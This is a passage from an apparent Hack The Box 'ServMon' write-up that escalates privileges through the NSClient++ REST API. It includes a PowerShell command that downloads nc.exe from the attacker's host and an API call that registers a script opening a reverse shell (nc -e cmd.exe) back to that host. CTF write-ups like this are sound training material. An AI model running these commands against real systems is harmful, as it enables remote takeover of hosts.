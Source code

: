 ![Untitled](/img/htb-servmon/Untitled%204.png)

It gives us a web administrator password and you can see the allowed hosts is `127.0.0.1` of the box itself.

According to the exploit we need to access the website and add scripts to run which gives us reverse shell but Web Interface having some issues for me. So I searched for other ways and found its **API** docs.

> **Reference:** [https://docs.nsclient.org/api/rest/scripts](https://docs.nsclient.org/api/rest/scripts)

First I uploaded `nc.exe` to the machine.

```bash
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.6:8000/nc.exe', 'nc.exe')
```

Following the docs we can add a script which we need to execute in our case it is `nc.exe` to get a reverse shell.

> The scripts API can be used to read view and modify the scripts which NSClient++ can run.

```bash
nadine@SERVMON C:\Users\Nadine\AppData\Local\Temp>curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary "C:\Users\Nadine\AppData\Local\Temp\nc.exe 10.10.14.6 5555 -e cmd.exe"
Enter host password for user 'admin':
Added check_new as scripts\check_new.bat
```

> The query API can be used to list and execute queries. Queries are check commands which other modules provide.

> [https://docs.nsclient.org/api/rest/queries/#command-execute](https://docs.nsclient.org/api/rest/queries/#command-execute)

Now send queries to execute it.

```bash
nadine@SERVMON C:\Users\Nadine\AppData\Local\Temp>curl -s -k -u admin https://localhost:8443/api/v1/queries
Enter host password for user 'admin':
```

Started my netcat listener 

![Untitled](/img/htb-servmon/Untitled%205.png)

We own the box!!